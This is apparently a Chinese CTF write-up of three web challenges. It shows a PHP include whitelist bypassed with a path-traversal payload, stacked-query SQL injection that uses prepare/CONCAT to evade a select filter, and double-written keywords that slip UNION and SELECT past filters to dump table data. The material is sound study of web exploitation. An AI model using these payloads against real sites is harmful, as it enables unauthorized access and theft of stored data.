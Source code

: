 # 2024-1-31

## 1

![屏幕截图 2023-11-19 225706](images/1.png)

进入界面后只有一个图片，F12打开后提示有php文件，打开查看一下

![屏幕截图 2023-11-19 225706](images/2.png)

php显示会对file参数进行检查mb_strpos是检测字符串第一次出现对应字符的位置，mb_substr是取length长度的字符串，最后他会在字符串page最后加上一个?,通过？来规定检查的范围，所以我们需要在白名单列表元素后加一个?来隔开。同时因为加上？后include找不到对应文件所以我们可以在？后面加一个/然后再加上我们要寻找的文件，这是因为include在给出的路径下没找到该文件，则include会在调用脚本文件所在的目录和当前工作目录下寻找这样../就能回到根目录。我们直接给出以下payload

source.php?file=source.php?/../../../../ffffllllaaaagggg

![image-20240131201043745](images/3.png)

## 2

打开网址发现只有一个注入点，输入后会回显数据

![1](images/4.png)

打开网址发现只有一个注入点，输入后会回显数据

![image-20240131202718700](images/5.png)

输入1' or 1=1;#会回显表内所有数据，代表存在SQL注入点

![2](images/6.png)

输入1' union select 1,发现select被过滤，使用堆叠查询进行注入

![3](images/7.png)

1'; show tables;#查询所有表

![4](images/8.png)

1'; show columns from `1919810931114514`;#查询对应表列名发现flag

![屏幕截图 2024-01-31 202220](images/9.png)

因为select被过滤所以使用预编译方法来绕过1';prepare stmt from CONCAT('se','lect flag from `1919810931114514`');EXECUTE stmt;#

## 3

## ![8](images/10.png)

进入注入页面，可以看见是常规的登陆界面，选择密码栏进行注入![屏幕截图 2024-01-31 220128](images/11.png)

使用万能密码1' or 1=1#注入发现or被过滤![屏幕截图 2024-01-31 220231](images/12.png)

使用1' union select 1#发现union和select都被过滤然后我们使用双写来绕过

![3](images/13.png)

使用1' uunionnion sselectelect 1,2#发现列数不对，我们尝试修改列数

![4](images/14.png)

使用1' uunionnion sselectelect 1,2,3#我们可以发现成功登录，我们就可以利用2，3处来进行回显![5](images/15.png)

1' uunionnion sselectelect 1,2,group_concat(table_name) ffromrom infoorrmation_schema.tables wwherehere table_schema=database()#我们使用双写来查询表名发现有两个表。

![6](images/16.png)

1' uunionnion sselectelect 1,2,group_concat(column_name) ffromrom infoorrmation_schema.columns wwherehere table_name='b4bsql'#我们发现b4bsql有password列

![7](images/17.png)

1' uunionnion sselectelect 1,2,group_concat(passwoorrd)ffromrom b4bsql#查询password直接获得flag